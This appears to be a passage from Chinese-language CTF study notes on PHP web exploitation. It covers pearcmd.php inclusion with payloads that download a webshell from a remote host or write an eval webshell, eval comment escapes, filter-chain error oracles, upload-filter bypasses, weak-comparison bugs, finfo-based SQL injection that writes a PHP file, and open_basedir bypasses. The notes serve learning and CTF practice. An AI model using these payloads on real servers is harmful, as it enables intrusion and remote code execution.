**当执行了pear后，会将$_SERVER[‘argv’]当作参数执行！如果存在文件包含漏洞的话，就可以包含pearcmd.php，拉取远程服务器上的文件到靶机，再通过文件包含获取shell。**

## 3.payload

如果靶机出网

```php
//test.php
<?php
include($_GET['file']);
?>
```

我们尝试拉取远程服务器的shell.php到靶机的/tmp目录下

payload

```
http://localhost/test.php?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://vps/shell.php
//shell就是我们的一句话木马
```

然后文件包含shell.php同时传参cmd即可

解释payload

- **`?file=/usr/local/lib/php/pearcmd.php`**
  - 指定 `pearcmd.php` 文件的路径。
  - `pearcmd.php` 是 PEAR（PHP 扩展和应用库）的命令行工具。
- **`&+install+-R+/tmp+http://vps/shell.php`**
  - 这是 `pearcmd.php` 的 `install` 命令的参数。
  - `install`：安装指定的包。
  - `-R /tmp`：将安装的文件保存到 `/tmp` 目录。
  - `http://vps/shell.php`：从远程服务器下载的恶意文件。

如果靶机不出网，我们可以写一句话木马进hello.php

```
http://localhost/test.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=@eval($_POST['shell']);?>+/var/www/html/shell.php
```

解释payload

- **`?+config-create+`**
  - 这是 PHP 的 `pearcmd.php` 工具的一个参数，用于创建配置文件。
  - `pearcmd.php` 是 PEAR（PHP 扩展和应用库）的命令行工具。
- **`/&file=/usr/local/lib/php/pearcmd.php&/`**
  - 指定 `pearcmd.php` 文件的路径。
  - 如果服务器上存在 `pearcmd.php`，这段代码会尝试调用它。
- **`<?=eval($_POST[1])?>`**
  - 这是一个 PHP 短标签，用于执行 `eval($_POST[1])`。
  - `eval` 函数会执行传入的 PHP 代码，`$_POST[1]` 是从 POST 请求中获取的参数。
  - 这段代码的目的是将恶意 PHP 代码写入目标文件。
- **`+/tmp/hello.php`**
  - 指定目标文件的路径，即 `/tmp/hello.php`。
  - 如果攻击成功，恶意代码会被写入该文件。

后来看了p牛的文章才知道$SERVER并不任务&符号是参数的分隔符，而是将+号作为分隔符

# 逃逸eval中注释符

```php
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
eval("#". $a ."2323");
```

从eval中可以看到我们需要处理两个坑点

- 前面的`#`注释符会把后面的代码注释掉
- 后面的2323是脏数据，需要处理掉

后面的脏数据其实很好处理，我们在传入参数的结尾加上注释就可以，问题是如何绕过前面的注释符让我们的代码生效

我们可以用换行符(`\n`)

例如我们传入

```
?a=\necho '1';#
```

因为eval函数会把括号中的内容当成php代码去拼接在语句中。所以理论上如果我们传入换行符就会变成这样

```php
#\n
echo '1';#2323
```

此时成功逃逸注释，我们便可以传入想要传入的代码

但是需要注意的是

- 注意# 是 URL 的锚点标识符，这里需要对#进行编码成%23，否则会被认为是URL本身的分隔符，


- 根据**`\n` 和 `\r` 在 HTTP 请求中的特殊作用**，如果 `\n` 不经编码直接传入 `?a=\n123`，服务器或浏览器可能会错误地认为 `\n` 是 **HTTP 请求结束符**，导致参数被截断。所以我们的`\n`也是需要编码成URL编码才能起作用的

所以最终我们需要传入的payload是

```
?a=%0aecho '1';%23
```

# PHP filter chains的报错攻击

参考文章：https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle

有朋友问到一个题目很有意思，是红明谷初赛2024的web中的ezphp

```php
<?php
highlight_file(__FILE__);
//flag.php
if(isset($_POST['a'])){
    echo hash_file('md5',$_POST['a']);
}
?>
```

这里的话根据hash_file函数指定的散列算法md5去处理我们传入的文件名的文件内容，我们先关注一下这个函数

## hash_file函数



可以看到第一个参数就是指定的散列算法的类型，第二个就是文件名，这里提示有flag.php，我们传进去看看

```
POST：a=flag.php
```

然后获得到这个文件的哈希值

```
5fb6f40193d35a9353d6952f341c87e6
```

然后这题其实是关于PHP filter chains的基于错误的 Oracle 读取文件，但是我们还是先了解一下这个PHP filter chains

## 什么是PHP filter chains

**PHP Filter Chains** 是一种**利用 PHP 内置的过滤器（Filter）功能构造过滤器链**来执行代码或绕过安全限制的技术。例如我们平时用的php://filter伪协议，也是构造过滤器链。当 PHP 处理过滤器链时，恶意代码会被解码并执行。

当它被传递给易受攻击的函数（例如`file()`、`hash_file()`或）时，即使服务器没有返回文件内容，也可以用来泄露本地文件的内容

例如我们举个例子,在本地测试一下

```php
<?php 
highlight_file(__FILE__);
echo file($_GET['c']); 
?>
```

我们看看file函数的官方解释

## file函数



PHP的file函数读取一个文件，但不打印其文件的内容，这意味着服务器的响应中不会显示任何内容。

例如我web目录下有一个1.txt文件

```
//1.txt
123
```

然后我传入?c=1.txt



可以看到这里并没有返回文件的内容而是返回了数组

然后我们继续往下看

## 攻击思路

看看原文，然后再一句句翻译



- 使用iconv过滤器通过编码去增加数据大小来触发内存错误
- 使用dechunk过滤器根据上一个错误确定文件的第一个字符。
- 再次使用iconv过滤器，使用不同字节顺序的编码来交换剩余的字符。

然后我们看一下iconv的作用

### 利用iconv触发内存错误



对于iconv函数来说，他能接收传递给它的字符串的编码，也可以直接从php://filter包装器调用，我们先本地测试一下

```
root@VM-16-12-ubuntu:/# php -r '$string = "START"; echo strlen($string)."\n";'
5
```

在UTF8的编码下字符串START的长度为5个字节。

```
root@VM-16-12-ubuntu:/# php -r '$string = "START"; echo strlen(iconv("UTF8","UNICODE",$string))."\n";'
12
```

为什么换成UNICODE编码就是12个字节呢？在 `iconv` 中，`UNICODE` 并不是一种标准的编码名称。`iconv` 将 `UNICODE` 解释为 **UTF-16** 编码，而字符串 `"START"` 包含 5 个字符，每个字符都是 ASCII 字符（码点范围：0-127）。在 UTF-16 编码中，每个 ASCII 字符使用 2 个字节表示。然后`iconv` 在转换时还会在输出的开头添加 **BOM（Byte Order Mark）**，用于标识字节序。BOM 在 UTF-16 中占用 2 个字节。

所以一共合起来是12个字节

```
root@VM-16-12-ubuntu:/# php -r '$string = "START"; echo strlen(iconv("UTF8", "UCS-4", $string))."\n";'
20
```

`UCS-4` 是一种固定长度的 Unicode 编码方式，使用 **4 个字节** 表示每个字符。但是我们需要用到的是UCS-4LE而不是UCS-4，UCS-4LE的编码的字节序是默认固定的，而`UCS-4` 的字节序是 **未明确指定的**，通常由系统默认决定。

在PHP中，资源限制由php.ini的memory_limit参数定义。它的默认值是128MB。如果试图读取大于此大小的文件，则会引发错误



例如我们尝试对字符串进行多次编码

```php
<?php

$string = "START";

for ($i = 1; $i <= 13; $i++) {
    $string = iconv("UTF8", "UCS-4LE", $string);
}
```

在内存中的操作是这样的



终端执行

```
root@VM-16-12-ubuntu:/var/www/html# php 2.php
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 83886144 bytes) in /var/www/html/2.php on line 6
```

以上就是如何触发内存错误的学习讲解

### 如何泄漏文件第1个字符

刚刚我们看到了如何触发这个错误，现在我们来看看如何转化成基于错误的 Oracle

Dechunk过滤器

这里其实是利用了php://filter包装器中的Dechunk方法，但是好像我在PHP文档中并没有搜查到

其目的是处理分块传输编码。后者将数据拆分为2个以CRLF结尾的行的块，第一个行定义块长度。

我们跟着文章试一下

```
root@VM-16-12-ubuntu:/# echo "START" > /tmp/test
root@VM-16-12-ubuntu:/# php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
START
root@VM-16-12-ubuntu:/# echo "123456" > /tmp/test
root@VM-16-12-ubuntu:/# php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
root@VM-16-12-ubuntu:/# echo "ATART" > /tmp/test
root@VM-16-12-ubuntu:/# php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
root@VM-16-12-ubuntu:/# echo "0TART" > /tmp/test
root@VM-16-12-ubuntu:/# php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
```

文章解释的是，当第一个字符是十六进制值（[0-9]，[a-f]，[A-F]）时，文件内容在通过dechunk过滤器时被丢弃。这是因为如果十六进制长度后面没有CRLF，解析将失败。

因此，如果第一个字符是十六进制值，输出将为空，否则完整的链不会改变，并且会触发memory_limit错误，从而完成我们的oracle。

然后我们将以上两种技巧联合起来

```php
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$filter = "php://filter/dechunk|$size_bomb/resource=/tmp/test";

echo file_get_contents($filter);
```

这里的话构造了一个过滤器链，拼接**`convert.iconv.UTF8.UCS-4` 过滤器**，最终过滤器链的内容为

```
php://filter/dechunk|convert.iconv.UTF8.UCS-4|convert.iconv.UTF8.UCS-4|...|convert.iconv.UTF8.UCS-4/resource=/tmp/test
```

然后在`echo file_get_contents($filter);`中，会进行文件读取并应用该过滤器链，此时会出现两种结果

- 如果第一个字符是在十六进制值的范围中，那么该内容通过dechunk的时候就会被丢弃，也就不会报错
- 如果第一个字符不是在十六进制值的范围中，那么该过滤器链就会完整应用，并且触发memory_limit错误

先学到这吧，实在是太难琢磨了那篇文章

# pathinfo()函数绕过

参考文章：[文件上传upload-labs 第20关 pathinfo()函数](https://blog.csdn.net/YYYYU_ZHIZZZ/article/details/134287200)

这个通常出现在我们上传文件的时候的一种绕过，先来看看pathinfo()函数

## pathinfo()函数





pathinfo函数用于获取文件或目录的路径信息。它接受一个文件或目录的路径作为输入，并返回一个关联数组，其中包含有关路径的信息，例如 **`PATHINFO_DIRNAME`**、 **`PATHINFO_BASENAME`**、 **`PATHINFO_EXTENSION`**、 **`PATHINFO_FILENAME`**。



需要注意一个很重要的点：

 PATHINFO_EXTENSION常量表示识别任何有效的拓展名，**如果拓展名有斜杠 / 或者 \ 就忽略，返回文件名最后一个点号后面的字符串作为拓展名。如果遇到最后一个点号后面没有拓展名或者拓展名无效就返回为空**。

```
 $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);
```

根据这个特性，我们就可以在一些题目里进行绕过

如果有一个黑名单后缀验证，很显然要使用特殊的符号和可执行的拓展名拼接，但是这个符号不会影响拼接的拓展名服务器识别是脚本文件。

​    如果使用 `1.php. `的文件名上传上去，最后一个点后面没有正确的后缀名了，pathinfo函数就会返回一个空字符给变量 $file_ext，再拿这个空字符去匹配黑名单显然这个文件就不会被阻止。

- 基于windows特性，同样的使用 1.php. .  1.php空格  1.php.空格    1.php::$DATA等格式都可以，可以绕过黑名单，也能让文件最终保存为 1.php 。这个在之前文件上传的知识点里有介绍过


- ​    如果是linux部署的话，例如00截断抓包改成 1.php%00.jpg （%00要解码，但是要求PHP版本低于5.3.4）。


- ​    如果PHP版本过高那`%00`截断就无效了，只能用一个之前从未使用的方法，在两个系统环境使用有一点点区别。在windows下部署可以抓包保存文件名使用`1.php/.`    `1.php\. ` ` 1.php/\.`等，在linux下部署就只能用`1.php/. `这个了。原因很简单，文件命名的时候` / \ `在windows是禁止的而 `/ `在linux也是禁止的，所以不会出现在文件名中最终保存还是1.php文件名。但是` \ `在linux是一个转义符号允许出现在文件名中，出现在后缀(1.php\.)那就没什么意义了。

- **关于为什么 / 后面要一个点，是因为pathinfo函数返回后缀名（最后一个点号后面的字符串）的时候会去除 / 和 \ 。如果使用1.php/的话，那么去除 / 后返回的真实的php后缀被读取到就会黑名单匹配上。加上一个点pathinfo函数读取的就是最后的点后面的字符串，点后面是空字符串不是有效拓展名它就返回为空，空就不会匹配黑名单以达到绕过黑名单目的。**

  ​    再拓展一下` \.` 在linux的作用。如果linux下有一个文件`1.php\.`的文件，使用`php  1.php\.`命令去执行，那么会认为文件名是 `1.php.` 就会找不到这个文件。正确做法是`php '1.php\.'`告诉系统 \ 是文件名一部分而不是转义符号。

所以在Linux下我们就可以利用`\.`去绕过后缀名的检测，接下来我们再学习一个新的姿势点

# move_uploaded_file的一个细节

参考文章：[从0CTF一道题看move_uploaded_file的一个细节问题](https://www.anquanke.com/post/id/103784)

这个细节的话也是在做TGCTF的时候碰到的，先是用pathinfo()函数结合黑名单对后缀名进行了过滤，再去进行move_uploaded_file操作，对于这一步的绕过，一开始很多人都构造成了 name=index.php/. 这种格式，但是会发现，这样虽然绕过了后缀检查，
其中，假如我们传入的是 name=`aaa.php/. `，则能够正常生成 aaa.php，而传入`ndex.php/.`则在覆盖文件这一步失败了

在文章的两个测试中，可以发现name=index.php/. 的错误信息是No Such file or Directory，而name=aaa/../index.php/. 则没有报错，因此初步猜测是move_uploaded_file对于经过了目录跳转后的文件判断机制发生了变化，这里需要结合函数源码进行分析，详细的在这位师傅的文章中写的很好

结论：**在进行了目录跳转后，move_uploaded_file将文件判断为不存在了，因此能够执行覆盖操作。**

题目:TGCTF2025--**(ez)upload**（很经典的题目）

# in_array() 函数弱比较漏洞

- 这是 PHP 的一个内置函数，用于检查指定的值是否存在于数组中。

- 语法是

  ```php
  in_array(mixed $needle, array $haystack, bool $strict = false)
  ```

  - **`$needle`**: 要搜索的值（在这个例子中是 `$_GET['n']`）。
  - **`$haystack`**: 要搜索的数组（在这个例子中是 `$allow`）。
  - **`$strict`**（可选）：如果为 `true`，则在比较时会进行强类型检查。

注:in_array()函数默认没设置为true采用的是弱比较，在进行检查比较的时候会自动进行类型转换，我们来验证一下

```php
<?php
$a='1.php';
$b=array(1,2,3,4,5);
if(in_array($a,$b)){
    echo "yes";
}

 #输出结果是yes，证明1和1.php是相等的，即通过了弱比较  
```

**in_array() 函数存在弱比较的漏洞，如果没有设置第三个参数，in_array()  函数在比较时默认是弱类型比较，这意味着它会进行自动类型转换。例如数组中的元素是整数，而搜索的值是字符串，PHP  会尝试将字符串转换为整数来进行比较。比如上面字符串类型的 1.php 就自动转换为了整数 1，也就符合在数组中的条件。**

# strcmp()函数漏洞

`strcmp()` 是一个 PHP 函数，用于比较两个字符串。它的用法如下：

```
int strcmp ( string $str1 , string $str2 )
```

- 如果 `str1` 小于 `str2`，那么 `strcmp()` 返回一个小于 0 的整数。
- 如果 `str1` 大于 `str2`，那么 `strcmp()` 返回一个大于 0 的整数。
- 如果 `str1` 等于 `str2`，那么 `strcmp()` 返回 0。

strcmp函数无法比较数组,对象，会返回0

## 关于PHP优先级的规则

其实是起源于我做到的一个签到题，题目代码如下

```php
eval("var_dump((Object)$_POST[1]);");
```

这里的话用强制类型转化对我们的参数进行了转换，但是我在测试的时候传入phpinfo()是可以执行phpinfo的，这是为什么呢？

我们先看看运算符优先级



但是在函数调用结合运算符的时候也是有优先级的，

函数调用和以下运算符的优先级相同：

- `()`：用于强制改变优先级或调用函数。
- `[]`：数组访问。
- `->`：对象成员访问。
- `::`：类静态成员访问。

并且这些运算符的优先级大于其他运算符，例如我们举个例子

```php
<?php
var_dump((Object)phpinfo());
```

这里按照我们刚刚的说法，这里会先执行函数调用，再进行类型转化，因为phpinfo()函数的返回值是true，那么此时(Object)只是会对phpinfo()的返回值进行转化而不会影响phpinfo本身的执行，不过这道题最终还是通过闭合括号去进行的RCE

# finfo文件注入

这是我在复盘web224的时候重新认识到的一个知识点，假设源码是这样的

```php
<?php
error_reporting(0);

if ($_FILES["file"]["error"] > 0) {
    die("Return Code: " . $_FILES["file"]["error"] . "<br />");
}

if ($_FILES["file"]["size"] > 10 * 1024) {
    die("文件过大: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />");
}

if (file_exists("upload/" . $_FILES["file"]["name"])) {
    echo $_FILES["file"]["name"] . " already exists. ";
} else {
    $filename = md5(md5(rand(1, 10000))) . ".zip";
    $filetype = (new finfo)->file($_FILES['file']['tmp_name']);
    
    if (preg_match("/image|png|bmap|jpg|jpeg|application|text|audio|video/i", $filetype)) {
        die("file type error");
    }
    
    $filepath = "upload/" . $filename;
    $sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('" . $filename . "','" . $filepath . "','" . $filetype . "');";
    
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
    
    $con = mysqli_connect("localhost", "root", "root", "ctf");
    if (!$con) {
        die('Could not connect: ' . mysqli_error());
    }
    
    if (mysqli_multi_query($con, $sql)) {
        header("location:filelist.php");
    } else {
        echo "Error: " . $sql . "<br>" . mysqli_error($con);
    }
    
    mysqli_close($con);
}
?>
```

此时这里的$filepath和$filename都是不可控的，我们该如何进行sql注入呢

我们看sql语句

```
$sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('" . $filename . "','" . $filepath . "','" . $filetype . "');";
```

这里可控的只有$filetype了，关于$filetype

```php
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
```

这里实例化了finfo对象并调用了file函数，但是这个file函数会返回文件的一些信息，然后我们的payload是这样的

上传一个txt文件，内容为

```php
C64File "');select 0x3c3f3d60746163202f662a603f3e into outfile '/var/www/html/2.php';--+
```

可以看到后面是有闭合并进行sql注入的sql语句，但是这里能否写入呢？

本地测试一下

假设这里有代码

```php
<?php
$filetype = (new finfo)->file('1.txt');
var_dump($filetype);
```

然后当前目录下创建一个txt

```
C64File "');select 0x3c3f3d60746163202f666c2a603f3e into outfile '/var/www/html/file1.php';--+
```

然后我们输出一下



可以看到这里的sql语句是插进去的了，证明这里可以通过C64File去插入我们的恶意代码让finfo检测的时候将恶意代码一同赋值给filetype

# bypass open_basedir

open_basedir 是 PHP 的一个安全配置指令，由于 open_basedir 限制 PHP 脚本只能访问特定的目录。当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。

## 命令执行函数bypass

其实open_basedir对命令执行函数是没有限制的，我们用system函数试一下

```php
<?php
//echo file_get_contents('/home/1.txt');
show_source(__FILE__);
system('cat /home/1.txt');
?>
```

发现是可以成功读取到文件的，但是这个是最简单的情况，一般来说会在disable_function禁用掉命令执行函数

## 利用glob://伪协议Bypass

这个的话通常用来读目录而不能读文件

## DirectoryIterator+glob://

```php
$a =new DirectoryIterator('glob:///*');
foreach($a as $A){
    echo $A.'<br>';
};
exit();
```

输入`glob:///*`即可列出根目录下的文件，但是会发现只能列根目录和open_basedir指定的目录的文件

## opendir()+readdir()+glob://

opendir函数打开目录句柄，readdir从目录句柄中读取目录

```php
<?php
$a = "glob:///*";
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

效果也是和方法一一样的

# 利用chdir()与ini_set()组合

我们先来了解一下这两个函数

- chdir()函数



- ini_set()函数



其实就是可以设置ini配置，在这里可以看到有一个附录清单，我们点进去看一下

https://www.php.net/manual/zh/ini.list.php



发现open_basedir也是可以通过这个函数去修改的，那我们可以写出一个可用的poc

```php
mkdir('111');
chdir('111');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
```

这里的话需要多用几个chdir函数，确保能移动到根目录
